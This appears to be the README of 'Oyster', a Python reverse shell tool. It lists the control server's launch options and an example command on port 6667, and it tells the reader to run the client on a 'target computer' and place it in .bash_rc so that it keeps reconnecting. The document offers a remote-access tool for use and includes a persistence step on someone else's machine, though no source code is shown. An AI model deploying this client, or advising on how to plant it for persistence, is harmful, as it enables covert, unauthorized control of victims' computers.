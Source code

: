 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight reverse shell written in python 3.5.

I wrote this after finding an example reverse shell on the thenewboston youtube channel.  I saw some things I wanted to
improve, so that's what I attempted to do.  The clients will continuously try to make a connection with the server, even
after the server closes the connection.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

### Example

All of the arguments provided below are the defaults except `host`, which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Client

Start `client.py` on the target computer.  Place in .bash_rc

### Example

```
python3 client.py
```
